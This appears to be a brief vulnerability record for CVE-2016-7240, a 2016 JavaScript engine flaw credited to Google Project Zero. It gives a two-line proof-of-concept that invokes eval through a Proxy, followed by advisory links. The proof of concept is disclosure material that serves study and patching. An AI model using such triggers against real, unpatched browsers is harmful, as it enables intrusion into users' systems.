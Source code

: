 # CVE-2016-7240

- Report: Sep 2016
- Fix: Nov 2016
- Credit: Natalie Silvanovich, Google Project Zero

## PoC

```javascript
var p = new Proxy(eval, {});
p("alert(\"e\")");
```

## Reference

- [Microsoft](https://technet.microsoft.com/library/security/ms16-129)
- [Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=948)

